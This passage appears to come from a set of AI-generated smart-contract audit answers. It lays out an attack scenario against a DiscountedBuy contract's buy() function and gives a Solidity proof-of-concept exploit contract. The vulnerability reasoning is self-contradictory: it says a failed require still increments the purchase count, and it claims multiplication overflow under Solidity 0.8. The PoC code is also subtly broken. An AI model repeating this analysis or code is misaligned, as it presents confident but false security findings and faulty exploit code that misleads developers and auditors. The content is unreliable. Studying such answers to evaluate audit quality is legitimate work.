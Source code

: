 Here's a potential attack scenario that could exploit this vulnerability:

Initially, the value of objectsBought[msg.sender] is 0.

The attacker calls the buy() function and sends an amount of Ether less than BASE_PRICE, for example, 0.5 Ether.

During the price calculation, due to multiplication overflow, the expression msg.value * (1 + objectsBought[msg.sender]) could result in an incorrect outcome, such as 0.5 Ether.

Since the actual amount of Ether sent is less than the expected price, the require statement would fail, but the value of objectsBought[msg.sender] would still increase by 1, meaning the attacker successfully "buys" the object.

The attacker could repeat this process and purchase multiple objects at the incorrect price.

To demonstrate this potential vulnerability, I'll provide a simple Proof of Concept (PoC) code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
 
contract ExploitDiscountedBuy {
    DiscountedBuy public discountedBuyContract;
 
    constructor(address _discountedBuyContract) {
        discountedBuyContract = DiscountedBuy(_discountedBuyContract);
    }
 
    function attack() external payable {
        // Send an amount less than BASE_PRICE
        uint256 amountToSend = 0.5 ether;
        require(msg.value < DiscountedBuy.BASE_PRICE(), "Invalid amount");
 
        // Call the buy() function multiple times
        for (uint256 i = 0; i < 10; i++) {
            discountedBuyContract.buy{value: amountToSend}();
        }
    }
 
    function getObjectsBought(address user) external view returns (uint256) {
        return discountedBuyContract.objectsBought(user);
    }
}

```

This PoC contract exploits the potential vulnerability by calling the buy() function in the DiscountedBuy contract multiple times. You can adjust the number of purchases and the amount sent in the attack contract. Please note, this example is for demonstration purposes only, and contracts with this vulnerability should not be used in a live environment.

### Test10

#### Prompt：
